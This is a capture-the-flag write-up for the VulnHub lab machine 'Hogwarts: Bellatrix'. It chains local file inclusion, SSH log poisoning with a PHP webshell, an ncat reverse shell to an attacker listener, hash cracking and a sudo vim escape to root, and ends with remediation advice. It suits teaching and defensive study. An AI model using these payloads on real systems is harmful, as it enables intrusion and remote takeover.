

# Hogwarts: Bellatrix — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.31 (host-only) |
| **Difficulty** | Easy-Medium |
| **OS** | Linux |
| **Author** | BertrandLorente9 |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/) |

## Attack Summary

`nmap` → LFI in `ikilledsiriusblack.php` → SSH log poisoning → ncat reverse shell → hidden hash + wordlist → John cracks lestrange password → `sudo vim` shell escape → root

## Methodology

1. Network discovery and port scan
2. LFI discovery and `/etc/passwd` read
3. SSH log poisoning to inject PHP payload
4. Reverse shell via poisoned auth.log
5. Enumerate home directory for hash and wordlist
6. Crack hash, escalate via sudo vim

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -sC -sV -p- 192.168.1.31
```

Ports open: 22 (SSH), 80 (HTTP)


---

## Step 2: LFI Discovery

Browse to the web service. Page source contains a `##` comment hinting at a PHP include. Test LFI:

```
http://192.168.1.31/ikilledsiriusblack.php?file=/etc/passwd
```

`/etc/passwd` is returned — LFI confirmed. Users visible: `lestrange`, `bellatrix`.


---

## Step 3: SSH Log Poisoning

Inject a PHP webshell as the SSH username — the failed login attempt is written to `/var/log/auth.log`:

```bash
ssh '<?php system($_GET["c"]); ?>'@192.168.1.31
```

Verify the log now contains the payload:

```
http://192.168.1.31/ikilledsiriusblack.php?file=/var/log/auth.log&c=id
# Output: uid=33(www-data)
```


---

## Step 4: Reverse Shell

Start a listener:

```bash
nc -lvp 1234
```

Trigger the reverse shell via the poisoned log:

```
http://192.168.1.31/ikilledsiriusblack.php?file=/var/log/auth.log&c=ncat+-e+/bin/bash+192.168.1.2+1234
```

Shell received as `www-data`.


---

## Step 5: Enumerate, Crack, Escalate

Find a base64-named directory containing a wordlist `.secret.dic` and a file `Swordofgryffindor` holding lestrange's hash:

```bash
find /home -type f 2>/dev/null
cat /home/<base64dir>/Swordofgryffindor    # hash
cat /home/<base64dir>/.secret.dic          # download this wordlist
```

Transfer the wordlist and crack the hash:

```bash
john --wordlist=.secret.dic lestrange_hash.txt
# lestrange:<cracked_password>

su lestrange
sudo -l
# (ALL) NOPASSWD: /usr/bin/vim
```

Escape vim to root (GTFOBins):

```bash
sudo vim -c ':!/bin/sh'
id     # uid=0(root)
cat /root/flag.txt
```



---

## Lessons Learned

1. **LFI + Log Poisoning** — whenever LFI reaches `/var/log/auth.log`, SSH log poisoning converts it to RCE; test this combination systematically
2. **SSH accepts arbitrary usernames** — the failed login is still logged including the username string verbatim
3. **GTFOBins sudo escape** — `vim`, `less`, `more`, `nano`, `awk`, `python`, `perl` — any of these in sudoers with NOPASSWD means root

## Remediation

| Vulnerability | Fix |
|---|---|
| LFI in `file` parameter | Whitelist allowed files; never pass user input to `include()`/`require()` |
| Readable `/var/log/auth.log` by www-data | Restrict log file permissions |
| sudo vim NOPASSWD | Remove unnecessary sudo rules; prefer `sudoedit` with restricted paths |
| Hardcoded hash + wordlist in home dir | Never store password hashes in application directories |
